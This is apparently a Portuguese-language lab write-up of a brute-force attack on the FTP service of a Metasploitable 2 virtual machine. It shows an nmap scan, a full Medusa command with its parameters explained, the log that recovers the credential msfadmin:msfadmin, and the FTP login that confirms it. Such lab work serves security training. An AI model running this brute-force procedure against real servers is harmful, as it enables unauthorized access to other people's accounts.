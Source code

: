 Primeiro, verifiquei se o serviço FTP estava ativo:

```bash
$ nmap -sV -p 21 192.168.56.102

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 2.3.4
```

✅ **Serviço FTP detectado na porta 21**

#### Comando de Ataque

```bash
medusa -h 192.168.56.102 \
       -U wordlists/users.txt \
       -P wordlists/passwords.txt \
       -M ftp \
       -t 4 \
       -v 6 \
       -f
```

**Explicação dos parâmetros:**
- `-h 192.168.56.102`: Alvo é o Metasploitable 2
- `-U wordlists/users.txt`: Testa todos os usuários da lista
- `-P wordlists/passwords.txt`: Testa todas as senhas da lista
- `-M ftp`: Usa o módulo FTP
- `-t 4`: Usa 4 threads paralelas
- `-v 6`: Verbosidade máxima para ver todas as tentativas
- `-f`: Para após encontrar a primeira credencial válida

#### Resultado do Ataque

```
ACCOUNT CHECK: [ftp] Host: 192.168.56.102 User: admin Password: 123456
ACCOUNT CHECK: [ftp] Host: 192.168.56.102 User: admin Password: password
...
ACCOUNT FOUND: [ftp] Host: 192.168.56.102 User: msfadmin Password: msfadmin [SUCCESS]
```

**✅ Credencial descoberta: `msfadmin:msfadmin`**
**⏱️ Tempo: ~15 segundos**
**🔢 Tentativas: 267**

#### Validação do Acesso

Testei a credencial descoberta:

```bash
$ ftp 192.168.56.102
Connected to 192.168.56.102.
220 (vsFTPd 2.3.4)
Name: msfadmin
331 Please specify the password.
Password: 
230 Login successful.
ftp> pwd
257 "/home/msfadmin"
ftp> ls
200 PORT command successful.
150 Here comes the directory listing.
drwxr-xr-x    2 1000     1000         4096 Mar 17  2010 vulnerable
226 Directory send OK.
```
